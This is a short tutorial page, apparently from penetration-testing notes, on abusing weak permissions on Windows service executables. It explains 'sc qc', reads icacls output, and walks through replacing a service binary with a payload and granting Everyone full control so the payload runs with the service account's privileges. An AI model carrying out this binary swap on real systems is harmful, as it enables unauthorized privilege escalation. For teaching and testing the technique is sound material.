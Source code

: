 # Service misconfigurations

Windows services are managed by the **Service Control Manager** (_**SCM**_). The _**SCM**_ is a process that is in charge of the management of the state of services, such as the current status, and any configurations of it.&#x20;

Each service that is present on a Windows machine will have an associated executable which will be ran by the _**SCM**_ whenever a particular service is started. The user account which the service will run as will also be specified.

**View the configuration of a particular service with the `sc qc` command**:

```powershell
C:\> sc qc [service_name]
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: [service_name]
        TYPE               : ...
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : [exec_path] [flags/options]
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : ...
        DEPENDENCIES       :
        SERVICE_START_NAME : [account]
```

The important fields to take note of are `BINARY_PATH_NAME` and `SERVICE_START_NAME`.&#x20;

a) `BINARY_PATH_NAME`: The associated executable

b) `SERVICE_START_NAME`:  The account used to run the service

### e

```powershell
C:\insecure\permissions.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  ...
                                  ...
```

The following line: `Everyone:(I)(M)` shows that the `Everyone` group has modify `(M)` permissons on the service executable. This allows us to overwrite the executable with our own payload and have it run as the privileges of the configured service user account.

The following steps can be taken to replace the original `.exe` file with our own:

1. Use the `move` command to move bin.exe to a backup location (`.exe.bkp`). The new location can have any extensions
2. Move the created payload executable to the file name of the original file (`bin.exe`)
3. Provide full permission `(F)`to the Everyone group. This allows any user to execute this file.

```powershell
C:\> cd C:\insecure\permission

C:\insecure\permission> move bin.exe bin.exe.bkp
        1 file(s) moved.

C:\insecure\permission> move [path_to_created_exe_payload] bin.exe
        1 file(s) moved.

C:\insecure\permission> icacls bin.exe /grant Everyone:F
        Successfully processed 1 files.
```

When the service is started, the executable created by us will be executed.
